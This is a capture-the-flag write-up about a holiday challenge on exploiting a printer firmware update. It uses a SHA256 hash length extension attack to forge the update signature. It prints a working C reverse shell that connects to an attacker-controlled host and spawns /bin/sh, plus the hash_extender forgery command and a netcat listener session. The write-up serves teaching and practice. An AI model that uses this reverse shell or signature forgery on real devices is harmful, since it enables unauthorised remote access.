

# Challenge 7: Printer Exploitation

> Investigate the stolen Kringle Castle printer. Get shell access to read the contents of /var/spool/printer.log. What is the name of the last file printed (with a .xlsx extension)? Find Ruby Cyster in Jack's office for help with this objective.

## The Hint

To get to Jack's Office and speak with Ruby, we first need access to the elevator in Frost Tower. Accessing the elevator
warns us that it has been shutdown for the festivities:


Opening the panel yields the following challenge:



We can see a puzzle involving logic gates. We just need to place the gates in the correct location to enable all three
outputs to light up:


Once we're in Jack's Office, Ruby has the following to say:

> Hey, I'm Ruby Cyster. Don't listen to anything my sister, Ingreta, says about me.
>
> So I'm looking at this system, and it has me a little bit worried.
>
> If I didn't know better, I'd say someone here is learning how to hack North Pole systems.
>
> Who's got that kind of nerve!
>
> Anyway, I hear some elf on the other roof knows a bit about this type of thing.
>
> Oh man - what is this all about? Great work though.
>
> So first things first, you should definitely take a look at the firmware.
>
> With that in-hand, you can pick it apart and see what's there.
>
> Did you know that if you append multiple files of that type, the last one is processed?
>
> Have you heard of Hash Extension Attacks?
>
> If something isn't working, be sure to check the output! The error messages are very verbose.
>
> Everything else accomplished, you just might be able to get shell access to that dusty old thing!

## The Main Challenge

Let's start by visiting the printer. We are presented with a status page of the printer's web interface:


Let's checkout the Firmware Update page:


We can download the current copy of the firmware, which is delivered in the form of a json object:

```json
{
  "firmware": "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",
  "signature": "2bab052bf894ea1a255886fde202f451476faba7b941439df629fdeb1ff0dc97",
  "secret_length": 16,
  "algorithm": "SHA256"
}
```

We can see the firmware as a base64 encoded string, and then a signature, secret length of `16`, and that `SHA256` was
specified as the signature algorithm. If we base64 decode the firmware string, we end up with a binary blob. Saving off
the blob reveals that it is a zip file. Extracting the zip produces `firmware.bin`, and inspecting it withing `Ghidra`
we get the following decompilation:

```c
undefined8 main(void)

{
    puts("Firmware is fully up to date!");
    return 0;
}
```

And we can see the following metadata using `ldd` and `checksec`:

```bash
$ ldd firmware.bin
        linux-vdso.so.1 (0x00007ffff30d7000)
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f952c91c000)
        /lib64/ld-linux-x86-64.so.2 (0x00007f952cb2b000)
$ checksec firmware.bin
[*] 'firmware.bin'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Nothing about the provided firmware looks exploitable, as it's about as simple as it gets. Let's try uploading a
different base64 encoded zip file to see if we can get execution on the target. We can craft a simple test program in c:

```c
int main(int argc, char **argv) {
        printf("Hello, World!");
        return 0;
}
```

Then compile and zip it:

```bash
$ gcc test.c -o firmware.bin && zip firmware.zip firmware.bin
```

We now have our compiled `firmware.bin` zipped into `firmware.zip`. Let's base64 encode it and replace the `firmware`
property of our firmware json object. Of note, using the cli `base64` utility was not producing good results, so I opted
to output a hex representation of the zip file and
use [CyberChef](https://gchq.github.io/CyberChef/#recipe=From_Hex('Auto')To_Base64('A-Za-z0-9%2B/%3D')&input=NTA0YjAzMDQxNDAwMDAwMDA4MDBkNDZiOTg1MzVhZDk5ZTM3Y2MwOTAwMDAzODQxMDAwMDBjMDAxYzAwNjY2OTcyNmQ3NzYxNzI2NTJlNjI2OTZlNTU1NDA5MDAwM2QwMTFjNjYxZDAxMWM2NjE3NTc4MGIwMDAxMDRlODAzMDAwMDA0ZTgwMzAwMDBlZDViN2Q2YzFjNDcxNTlmYmRmM2Q5ZTdjNjVlNWY1YTliZGE0ZTg4MWQwODIyNjllMmI1OTMzOGFlNTMzMGYxZjk3M2FmM2FjN2MxYjE0OTUwOTM2ZWNlYmViNTdkNzAxZjY2NmYyZmI1YWI5MjA2YjlhZDdhNGEwZDE2MTIwMjQxMjUxMjU1MDJhNDUyMDkyNGZlNDgyNTNlMWMwYzI1NDg1MDM1ZmM4MTBhYTUyMjE0MDIyZWI0YzUwOTA5MzJkMDc4OTlkOTlkYjdiNzMzYjc5Nzg2OGZiZjYwNWZiNGY3ZGJmNzliZjc2NmRlY2VjYzZlNjZiZGYzMWVlZDhmMGVmODA0MDE4MWY4ZDE4NzEwZDE0ZTg0MmNiZDliZjJiM2ZiNmQxM2NjNzVhMjZhZmNkYjg0YjZhMDcyYWM5NzM5ZWM3ODdjZDljNzYyZDA2ZWM3ZjJhYmY3NWIzYThmOWIxMThiODIwM2NiZDAyZGE0OWNjMzUwYzEyZmUwZDA3OTBjZjg1ODc0ZmE5OWVkMzU1MzllYzMxMzAyOGI0ZTNmMTJjMmY5MTY0YjNmZGZjNWUyNTFkYWNlMDlhZTNkMWZmNWJiNDhmZDJlNzZiMWI4MmFiMDA4ZmQ1OTQ2OGY0ZWRhN2YzY2YyZTFmMzdlNDdhOTFkOGY3ZDg4NDVlOGZiYzM1N2Y0ZjhiZmQzZGUyMWVhNTc0YjBiNzgyY2Q1ZGU4N2IxMWYwY2U5ZWQwODBjZWYwODZkYWZkNDM4YzgzZTE2NjExODViOTM4OWYxOGVmNmQ2NjRiYzI1OTk0OGU3NjY1YjY2M2IzYjVhM2FkYWE1NmM0NmRhNjNjNzQ1ZGEyMDczNmFmMGUwMTgxOWI3MjVjMmY5MWQ3MWQ3NTI5ZDk0ZmZlOWNjYTliZDVmOTExZjVkN2JmZjMzMzc5ZTE5MWVmYWQ5YTU4OTZmOGYzNzQxMWQwMmI1NDFkNDFlYTYwNDQyODVmOTAwZjMwOWExNGY5OWJmZDAxNzk3ZDQxNzUzYjdlYTg3MDNhODMwMDY0ZWQ5ODA4ZjNiNWRmOGFkMjVmODA3NGFkNGYzYjExMjNjYTllMzNkNmUwMWUxN2U5ZDIwZGRkODgxNjZiNDQ0NWE5ZjQ0OGEzMjMxMWI1MzI2MTNlOTU4MzJmMWIwOGE1NTYyYTE2NGY1OThhNjJiYTk1ODIyOGQwNmEzOTE5ZTVlNjU4ZmI0NDdkYTg3OTRjOGU4OTAxMjU3MzU3NTJhOTFkNTU1NmQ3NGE4Mzc5OTQ5YWJhM2IxZjEyNGYxOWM0YTY1ZDJkNDUzYjE0YzVkMGQ4OWY4NjgyZjQzNWYwYmU2YmZjMmJjYzkzNTI2MmE0OWU5NWVhYWMzN2M4MTc5ZGNiZGQxYzIyNThlNDc5NDBmNzZiMzNjZTgyZjFmYjAxMGM2MTRlNGIyODNmNzNiZjgxNTA3ZWY3Y2VlYWQzYWY4ODA4MzVmNzNmMGNlZmJlNTI1Y2E1NzIwNzY3ZTc5ZTI4OTI3OWU3OGUyODkyNzllNzhmMmZmMjU3ZmE5ZDlmMjc3NzlmZThkYTA3YzI2ZjA4YjU2ZmMxYWY0Zjg5MmVlMzM1ZTkyZTc3ZjEwNWMzNmNiOGQ3ZDVmYzRmNDM1ZTM3ZDVmYzI1MGQzNjRkYTRmOTM4MjZiYWZmZmM2MzA4YzQ1YTJlM2QyZTdjY2QyM2VhYjNlYWNlNzljZmFlZTM3MjNmOTRiMGZjYWY5ZDdlNGY5ZGZhZDFlMWE4ZDJlMDQ0ZWUyYTVhZmJjNTA2ZDIwMDI1ZDE3NDgzYjc1MjNkOGU1ZmEyMjU2ZTc0ODFjMGIwMThkYzBmZTM1YmQwZTg3MjZkMWQwMmE4ZGNiMzU0ZGE3NDlmM2NiMTRiMTdkYzRiNGRmZDc0MzYwYzdiYTljNWY5NTJmYmM3NTQwYmViMGU2OTc4NTE3ZTQ0YmViN2EyZGFlMjA0MDJiMDgxYTk3MjdjZGI4YzA5ZmM0NzdiYThiMTRhM2RjY2UzMTc5YmVlYjM1ODlkNDlhYmZhMjU3Yzk2N2JhN2U4Zjk1OTUwNjdjOWQyYjcxZmNmMzQyZTA1NWFjMGJjN2IxMmZlM2ZmZmE0M2I4OTA5YzhjNjEzZmRjOTlhMWZjMjdkZjk2ZjNiOTU1MWNkYjM5MTFiZjNhMTBiYjk1ZGZhZTFiODY3OWY2ZTNlNTQ5YTlhNmU5MzFiMzc3MjdjZGZlMGIxZjg5MmU3NGVkZGM4NTUwZjgyMzkxZmNjZmMzNjM5MWZjOGRmMDY4MzhmZmY2OThiY2QwYjIxOWQzODdhMzNiNmU5MjMxNWExOWM2NzVjODE3NmVmYWY1YTZkZGFmZDBmNmEzZjk2YmQxZmM1YjdkZjkzZjg0OGRkYTVmY2JmM2NiODJiY2ZmZDVkYzFmYzlmODNkNzAzYzdjMmM3YzNjZmM2MDU4NTk5ZTJjYjQ0OGRhNWI3NjhlYmIzZGQyOWU3OGUyODkyNzllNzhlMjg5Mjc5ZTc4ZTI4OTI3OWVmYzJmOGI4MDdjNDg1NjkzYzljY2FlZTYyMzE5MmQxOTI3ZGZmZjg0NGRmZTBmNzQyM2ViNWI1MWQ1YWE2MWU4MTg3NzYxN2MxYWUzMDczMTdlMGI2MzE0ZTMzMThjZmJhZTFhYzY0ZjMwMjYzMWJlODFmMTU3MThkYjA1ZWJkYmE3NTlmZmMzMjM0ODk4MGQwOTliYWEyYTgyOGI5NDI3ZGZmNDU3ZmU2YzE4ZTRhNTFiZjU1NTk4OWZkY2I2ZTFhMzFkMWY4Yjk4NmYyNjg0MTgxYTEwZWJlZmFmZDlmMDUwZjAzNDNhZDA3OGRmM2Q3YmI3OTk5ZjEzODkzZjY5Zjc0OTZjMDdkZmVhODAyNzcxOWVlNjc4ZDJkNjUzZjg4OGUxNzg3NzEyYTI1ZjBjM2RlMWViYWQyZTFmYzcwMTIxZWIzYmYzZDdmMTMxOGJjYmNkMmY4MzAzNjJlODMzYmU4ODU4ZmY2OTdmYmZkOGJjNTBkNjJmNmU3ZjJhZDAyN2I2M2Q1MTJlOGI5ZGYzMTU4MzYyNzc1YWVjMGM4YjZkNjE3MTdiOGZkOGRjMjNkNmY3ODhhMTFlMzE2ODdlMzdiYzhlOGZiM2I4MWVlN2Y3Mzg0ZjNjZjFjNDEzNGYzY2YxYzQxMzRmM2NmMWM0OTNmZjU0NjBmZjIxZWMzNzc0ZWU4ZjI2NTIwNTg2ZjQ2NWE4OWFhYTZiZDRiZTgxZWFiMGFmNzExM2Q1NjFiZjYyMjM0NWQ4ZGZiODk5MmJiZmIxNmU2NDA4OWVhNTliMTVlMTlkNjc4NjZlNTI4NGJkODcxNzY5ZjkxZDU0N2Y4Y2UyMDY4YWY1MTRlYjEwMmJiMDA3ZjIzY2RkYjdlOGUzZWNlMWZkYjI4MmUyZGQxNDU3MDIyY2JmM2RjMGM2YmQ0NGIxOTJhYjZmMGI2MmVkZmU2MTU4ZDcyNzUwNmE5ZGVhNDE1YTlmNTEyODM3NjU5NWVhZDdlOWY1ZmY4ZGVhY2ViZDljZmY0ZDgxZmRlMGJjYjQ4NWRjZjk3NzEyZDg5ZjNhZDhkYjdiNWZmM2Y2YjFmMTVjNWFjZjM1ZWY5N2Y2NGE2ZDJkYmJlZmNkOTllYWVlNTM3YmRhYTRiNmY2MWQxNjdkMWI3NWZhNzFlZmQ0YmI3NDgwMWY4ZjY2YTcyYmVmYjdmNzlkYjM3YzE5N2FjNDk1MGZkOGYzOGZlNWNiZWQ3OWM3ZjIxNWY2ZmM2NGY5YTAzZDZlMmM1ZjY5OGYzN2NiZGY2MWNmMmI5NmRmNjBjZjNmOTZhZjJhNmMyYzY2Zjg2YWQ0ZWNjYThiYThkYjk1YWY0MTg3NWNmOTkwOWRhZmMxZjIxYmVkZmI5ZGU1ZWY3NGRkYjRlZDQ3NzdkOWZiZjA1OWJlMTYxZDc1ZTVlYmVjZTcwN2NiYmZjYjdlNmViMGZjZGRhZWYzZDY4ZmVmNDJiOGNmNTliZWExOTA0OGMyZjA4ZDI4ZTRjYTZmMmFlMmFjZmM4ZGFiMDZjZjkzZTdhMzBmZjdkYjIyZDc2ZjIyZTU5NzM4N2UyYmU1MTFkNzlmZjc5YTZkMTRlMjgxZTdjMTgwNzk1ZWRjMGYyOTVhNGYzNzU3Y2Y5YzY5NWZkYzlmNWYyODExN2ZhOWViZmFiMjU5NTY4YjhlNmRlNTRiZGNlZDlmMzM3ZmViOGFlMmZjYWU1OTRmZjE3OGZkODhkYWYzNzFmZWQyZmMyZDllM2Y2ZjlhZjUxNDhmZWZiMzAyZTk4N2UyZmJjMjJmOTBkYzgxMTA1YWE1ZmQwM2I3ZDM1ZDgyN2I5ZWMxYzc0ZGJlNzg5ZWI0MGFhNGVhODZhMjc5NTI0ZGVhZjcxNWRmMTcxZDgyN2JkZWMzZmQyNWY4MDRhZDlmNmZmNzY0ODkzODFmYzdmYzQ2NWY4M2ZkOWMwNWY5MmNlMTFkZjcyMzNjODZjZWQxN2UzODRkZTM1NDI5ZmYzYzIyZWQzNmEyN2FhZTllMGNiNTg3ZTc0MDJiZTViZjI5NThmNjdjM2Y3Yzg3ZGE0NzY4ZmQzYjI5ZmY3ZDFhMjc2ZmZmNjI4OWViNWExMTRhZTQ3OTRjNjg3YTU2Y2Y0ZDRlNGExM2E4OTBhZmExZTgyOTY1ODIyNDYyNjQ5MWEyYzQzM2NhNTQzMjMzMWU0YjJhNzEzZGEzNjU5NTU4NmUxNjRkNjQ1MjMzNDk1NTU3ZTM1MjY3NWI0NzliYmIxMWM5MTU0OTI4MzE0ZDhiY2QyOTZhNWFkN2U2ZDBhNDE2NGJhOTRhM2M5NzRhY2Q2MTE3ODdhNjYwNGI5ZDMxZDVkNWFjOGU0MzUyOTQ4MTkxZjA1MGJmZDI3ZmIwOGZhNDhhYjA3NjcxYTRmNDdkZjQ2MDc4MjhkMmNiOTY5ODk5MjU5ODFhM2MzOGE2ZjRjYmI0MDZiOTZmMDQyOTgzZDFlMTllNzA1NDE5MWUxODM4ZGMzZmFhOGM4NjdiYTJmZDBhNjRiMjRjNjQ3MzY2YzRiN2NlNWQ1MWUzMzEzZDQ2NTM2MmJhYmI5OTk0MTczZTIxODYyZjI2OWU3NjZjNmMwYThjMTJjZjY2OTRlOTU4M2E0ZTlhODgwY2UzODI3ODIyYWRlNGIyNmFkYzE5MWRiOTQ0YWM4ZjY3YjNiNDFhMzNlZDQ2NTE3MDg0ZDA0MTI1NzM2OWQ4ZWMxZDM2MzQyNDY1ZTc1MjdhNmMxY2EzYWU1OTM4MGQ2N2Y4M2E1NTZkMDY0OWU5OGNhZTRhNTNlOTljMzRhMzY1NjY1NDRkOWY3MzUwZTNiOTQ0MzJkZTkyODg1MzJhZGMxMzY5ZDE2MzUzYzgyYzliOGU2NWE3OTExNDlmNGJlMzI2MmNkNDM1YWJlNGE0YWE2NTEzOTkzNGEzMjhiODRjNTM5MzMxNjI0OGNmNjY5MjNhODkwMjVmMzkzOTk1YTYzMmY0MjRhYjRlMjA0OTU3NjdiMTZhOGU5YWE0NjVjY2ExOTFkNDY5M2FiM2E2ZTM1YTQxYjNlYWIwMjY4OGU1MDFlN2I4YTk1ODJhODEyYmIzZGM3MWVmMjIwOTRmZWYxNDllODc2ZWY3Y2JiZjI4ZTQ3ZjNhZjI3ZjgwYmQyZTJlOTEzZjA5MjI3MGZhN2IxMTliMGI1NDJhN2YwZjI0YzhlOTFkOWMzZjlmMzdiODhkYjNlNzk3NTcxMWNlMWZkNjc3OGY5NDY4OWZmNzNmODI4ZmJmZTIzNTM2ZjhjMzNhZjAyY2Q3M2ViYzg3ZjBmMWM3OTBmNTBlMDJmZWIwNWUwNGZjMWFlNTQ5OGM4MmMzMWZkZTE3MTI4OGNkZDU4Mzc1MjUyMGJjZTc4MGYwZmRmZjA5NjRiZDQzODAzZmFjM2YwMTQ1MmU3ZTFmODdhNzkwZjU0ZTAyM2FhYzUzMDE5YjRiYzQwZmIyODBhYzNlMDU3ZjU4Y2YwMjJlNzFlZGYzZDdmZjc5ZWFkZjQzNzU1OGY3MDI4MjVkMzkzZGU3ZmRjZjIxNjc0ZTIzMmFjYWM3ZTU1NzcyZmNmODNmY2RmOWMzM2FkYTQ2Y2U5ZTRmZmJmZDJhZTcwZmViNmQ0MDdlMzljZGZiN2Y4M2YzODc3NWY5YTFkYmY0N2Y5ZWYzODdmZmI3MDEzZmM3NGQxOGJlYmVlZjcxZmViMDllMDFhY2U2ZWNmOWZlZmIyMTYyOWYxZjdjYzIyZWJmZTZlMWZkN2ZjYWY5OTdjYWUzMmRlNWZmMGFlNzBmZWYxNzgwNDFlZWZhZjlmOTdiMDU1OWY3ODhmZDc3MDJjOGViNmQ3MWI3MGY3Mjc4MTUxZjM1MGU3ZjU4ZmYyZWRkYTZmZjRkYzRlNjZhZGE3OWRhZDQxZmYyYjMyYjM4M2YxOGM3Njc5MTc1ZmRmY2RmMzljZWQzODU5YmZjMGVlZDk3MGJhY2JmYmQwZTZkNjNkYmUxZmQ0MWFhZTgxZjM2YzAxZmQ2N2JhMTM2Nzc3YmZlZjliNTkxYjZjZmZmMWQwMGZjZWYyOWUxZWY0NGI3M2NkNDZlZWE1ZjRmMjdmNmJiZjEyMWExZTJlNzQ3YTUyMzc2YTcxY2VkYjBiMDhjYWJiYzI4ZmUxMmZlYzczYTJkNmNlNDFjNzhmZjdmMDI1MDRiMDEwMjFlMDMxNDAwMDAwMDA4MDBkNDZiOTg1MzVhZDk5ZTM3Y2MwOTAwMDAzODQxMDAwMDBjMDAxODAwMDAwMDAwMDAwMDAwMDAwMGVkODEwMDAwMDAwMDY2Njk3MjZkNzc2MTcyNjUyZTYyNjk2ZTU1NTQwNTAwMDNkMDExYzY2MTc1NzgwYjAwMDEwNGU4MDMwMDAwMDRlODAzMDAwMDUwNGIwNTA2MDAwMDAwMDAwMTAwMDEwMDUyMDAwMDAwMTIwYTAwMDAwMDAw)
to base64 encode it:

```bash
$ xxd -p firmware.zip | tr -d '\n'
```

Once we've restructured our json object, we can try to submit it as a firmware update. We get the following response
from the update page:

> ## Something went wrong!
>
> Firmware update failed:
>
> `Failed to verify the signature! Make sure you are signing the data correctly: sha256(<secret> + raw_file_data)`

It looks as though the signature is a critical element of the firmware update process, and without knowing the secret,
we won't be able to generate our own valid signature with a new binary. If we recall our conversation with Ruby,
however, we remember that they had mentioned something about Hash Extension attacks, and provided us with
a [link](https://blog.skullsecurity.org/2012/everything-you-need-to-know-about-hash-length-extension-attacks) to learn
more about them. After reading up on Hash Extension attacks, we can see that the firmware update mechanism may be
vulnerable to such an attack.

We can leverage [Hash Extender](https://github.com/iagox86/hash_extender) to help do the heavy lifting for us.

Our plan of action is to use `Hash Extender` to append a zipped malicious payload to the existing firmware zip. We will
base64 encode the result to replace the `firmware` property in the json file, and assuming `Hash Extender` did its job,
we should have a valid signature accompanying our two appended binary payloads (the original firmware, plus our
malicious version). Ruby had also mentioned that if we provide more than one of the same type of file, the last on would
be processed, so we should be able to get execution using this method.

We can craft up a fairly simple reverse shell in c, and point it at an internet accessible host we control. If you don't
have a box readily available, you can spin up a cheap [EC2](https://aws.amazon.com/ec2) instance for this - just
remember to allow traffic through to the port you will be listening on.

Here's what our reverse shell looks like:

```c
/* credits to http://blog.techorganic.com/2015/01/04/pegasus-hacking-challenge/ */
#include <stdio.h>
#include <unistd.h>
#include <netinet/in.h>
#include <sys/types.h>
#include <sys/socket.h>

#define REMOTE_ADDR "your.ec2.public.ip"
#define REMOTE_PORT 10041

int main(int argc, char *argv[])
{
    struct sockaddr_in sa;
    int s;

    sa.sin_family = AF_INET;
    sa.sin_addr.s_addr = inet_addr(REMOTE_ADDR);
    sa.sin_port = htons(REMOTE_PORT);

    s = socket(AF_INET, SOCK_STREAM, 0);
    connect(s, (struct sockaddr *)&sa, sizeof(sa));
    dup2(s, 0);
    dup2(s, 1);
    dup2(s, 2);

    execve("/bin/sh", 0, 0);
    return 0;
}
```

Now we just need to compile and zip the program as before, and utilize `Hash Extender` to generate a valid signature:

```bash
hash_extender --file firmware.zip -s 2bab052bf894ea1a255886fde202f451476faba7b941439df629fdeb1ff0dc97 --signature-format=hex -a `cat reverse-shell.zip | xxd -p -c 99999999999` --append-format=hex -f sha256 -l 16 > output.json
```

`output.json` will now contain a valid signature for us as well as the hex representation of our payload. We can
leverage `CyberChef` to base64 encode it for us as we did above, replace the `signature` and `firmware` properties
in `firmware-export.json` with our new values, and now All that's left is to setup our listener, and upload our
malicious payload:

```bash
# In our EC2 instance
$ nc -n -lv -p 10041
Listening on 0.0.0.0 10041
Connection received on 34.121.219.20 56422
whoami
app
cat /var/spool/printer.log
Documents queued for printing
=============================

Biggering.pdf
Size Chart from https://clothing.north.pole/shop/items/TheBigMansCoat.pdf
LowEarthOrbitFreqUsage.txt
Best Winter Songs Ever List.doc
Win People and Influence Friends.pdf
Q4 Game Floor Earnings.xlsx
Fwd: Fwd: [EXTERNAL] Re: Fwd: [EXTERNAL] LOLLLL!!!.eml
Troll_Pay_Chart.xlsx
```

We can see a good connection from our printer, and if we cat out the specified log file, we get the answer to our
challenge: `Troll_Pay_Chart.xlsx`.
